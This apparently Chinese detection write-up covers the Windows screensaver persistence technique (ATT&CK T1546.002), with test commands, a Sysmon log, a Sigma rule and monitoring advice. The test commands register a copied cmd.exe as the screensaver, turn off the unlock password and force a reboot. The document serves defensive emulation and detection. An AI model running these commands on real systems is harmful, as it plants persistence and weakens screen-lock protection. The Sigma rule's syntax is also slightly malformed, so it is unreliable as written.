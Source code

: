 # T1546-002-win-事件触发执行-屏幕保护程序

## 来自ATT&CK描述

攻击者可以通过执行由用户不活动引发的恶意内容来建立持久性。屏幕保护程序是在用户不活动的可配置时间后执行的程序，由扩展名为.scr的便携式可执行文件（PE）组成。Windows屏幕保护程序scrnsave.scr位于C:\Windows\System32\，在64位Windows系统上位于C:\Windows\sysWOW64\，与基本Windows安装中的屏幕保护程序一起。

以下屏幕保护程序设置存储在注册表 ( `HKCU\Control Panel\Desktop\`) 中，可以通过操作来实现持久性：

- `SCRNSAVE.exe` -设置为恶意PE路径
- `ScreenSaveActive` -设置为“1”以启用屏幕保护程序
- `ScreenSaverIsSecure` -设置为“0”不需要密码解锁
- `ScreenSaveTimeout` -在执行屏幕保护程序之前设置用户不活动超时

攻击者可以使用屏幕保护程序设置来保持持久性，方法是将屏幕保护程序设置为在用户不活动的特定时间范围内运行恶意软件。

## 测试案例

### 测试1 Set Arbitrary Binary as Screensaver

该测试将一个二进制文件复制到Windows System32文件夹中，并将其设置为屏幕保护程序，因此它执行后会建立持久性。需要重新启动和登录。

测试命令，用命令提示符运行，需要admin/root权限：

```yml
copy #{input_binary} "%SystemRoot%\System32\evilscreensaver.scr"
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveActive /t REG_SZ /d 1 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveTimeout /t REG_SZ /d 60 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaverIsSecure /t REG_SZ /d 0 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v SCRNSAVE.EXE /t REG_SZ /d "%SystemRoot%\System32\evilscreensaver.scr" /f
shutdown /r /t 0
```

input_binary：C:\Windows\System32\cmd.exe

## 检测日志

Windows Sysmon日志

## 测试复现

### 测试1 Set Arbitrary Binary as Screensaver

```yml
copy C:\Windows\System32\cmd.exe "%SystemRoot%\System32\evilscreensaver.scr"
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveActive /t REG_SZ /d 1 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveTimeout /t REG_SZ /d 60 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaverIsSecure /t REG_SZ /d 0 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v SCRNSAVE.EXE /t REG_SZ /d "%SystemRoot%\System32\evilscreensaver.scr" /f
shutdown /r /t 0
```

## 测试留痕

### 测试1 Set Arbitrary Binary as Screensaver

```yml
Process Create:

RuleName: technique_id=T1112,technique_name=Modify Registry

UtcTime: 2022-01-11 13:14:16.334

ProcessGuid: {78c84c47-82a8-61dd-5928-000000000800}

ProcessId: 5496

Image: C:\Windows\System32\reg.exe

FileVersion: 10.0.17763.1 (WinBuild.160101.0800)

Description: Registry Console Tool

Product: Microsoft® Operating System

Company: Microsoft Corporation

OriginalFileName: reg.exe

CommandLine: reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v SCRNSAVE.EXE /t REG_SZ /d "C:\Windows\System32\evilscreensaver.scr" /f

CurrentDirectory: C:\Users\Administrator.ZHULI\

User: ZHULI\Administrator

LogonGuid: {78c84c47-f665-61db-95da-440100000000}

LogonId: 0x144DA95

TerminalSessionId: 3

IntegrityLevel: High

Hashes: SHA1=429DF8371B437209D79DC97978C33157D1A71C4B,MD5=8A93ACAC33151793F8D52000071C0B06,SHA256=19316D4266D0B776D9B2A05D5903D8CBC8F0EA1520E9C2A7E6D5960B6FA4DCAF,IMPHASH=BE482BE427FE212CFEF2CDA0E61F19AC

ParentProcessGuid: {78c84c47-7dc0-61dd-a227-000000000800}

ParentProcessId: 5028

ParentImage: C:\Windows\System32\cmd.exe

ParentCommandLine: "C:\Windows\system32\cmd.exe" 

ParentUser: ZHULI\Administrator
```

## 检测规则/思路

### Sigma规则

```yml
title: 更改屏幕保护程序实现持久化
status: experimental
references:
    - https://github.com/redcanaryco/atomic-red-team/blob/910a2a764a66b0905065d8bdedb04b37049a85db/atomics/T1546.002/T1546.007.md
date: 2022-01-11
tags:
    - attack.t1546-002
author: 12306Br0
logsource:
    product: windows
    service: sysmon
detection:
    selection_registry:
        EventID: 1 #进程创建
        CommandLine:'HKEY_CURRENT_USER\Control Panel\Desktop'
    condition: selection
level: medium
```

或许，通过Windows安全日志对注册表修改行为进行检测，效果会更好！

### 建议

监控.scr文件的进程执行和命令行参数。监控注册表中可能与典型用户行为不相关的屏幕保护程序配置更改。

Sysinternals Autoruns等工具可用于检测注册表中屏幕保护程序二进制路径的更改。可疑路径和PE文件可能表明网络中的合法屏幕保护程序存在异常值，应进行调查。

## 参考推荐

MITRE-ATT&CK-T1546-002

<https://attack.mitre.org/techniques/T1546/002>

Atomic-red-team-T1546-002

<https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1546.002/T1546.002.md>
